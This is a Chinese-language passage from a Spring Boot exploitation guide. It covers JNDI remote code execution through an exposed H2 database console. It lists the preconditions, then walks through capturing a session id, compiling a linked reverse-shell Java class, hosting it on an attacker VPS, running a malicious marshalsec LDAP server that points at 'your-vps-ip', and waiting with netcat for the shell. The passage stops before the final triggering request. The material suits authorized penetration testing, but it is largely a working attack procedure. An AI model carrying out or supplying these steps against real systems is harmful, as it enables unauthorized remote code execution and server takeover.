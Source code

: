 ### 0x07：h2 database console JNDI RCE

#### 利用条件：

- 存在 `com.h2database.h2` 依赖（版本要求暂未知）
- spring 配置中启用 h2 console `spring.h2.console.enabled=true`
- 目标可以请求攻击者的服务器（请求可出外网）
- JNDI 注入受目标 JDK 版本影响，jdk &lt; 6u201/7u191/8u182/11.0.1（LDAP 方式）

#### 利用方法：

##### 步骤一：访问路由获得 jsessionid

直接访问目标开启 h2 console 的默认路由 `/h2-console`，目标会跳转到页面 `/h2-console/login.jsp?jsessionid=xxxxxx`，记录下实际的 `jsessionid=xxxxxx` 值。

##### 步骤二：准备要执行的 Java 代码

编写优化过后的用来反弹 shell 的 [Java 示例代码](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/JNDIObject.java) `JNDIObject.java`，

使用兼容低版本 jdk 的方式编译：

```php
javac -source 1.5 -target 1.5 JNDIObject.java
```

然后将生成的 `JNDIObject.class` 文件拷贝到 **步骤二** 中的网站根目录。

##### 步骤三：托管 class 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```php
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

将**步骤二**中编译好的 class 文件拷贝到 HTTP 服务器根目录。

##### 步骤四：架设恶意 ldap 服务

下载 [marshalsec](https://github.com/mbechler/marshalsec) ，使用下面命令架设对应的 ldap 服务：

```php
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://your-vps-ip:80/#JNDIObject 1389
```

##### 步骤五：监听反弹 shell 的端口

一般使用 nc 监听端口，等待反弹 shell

```php
nc -lv 443
```
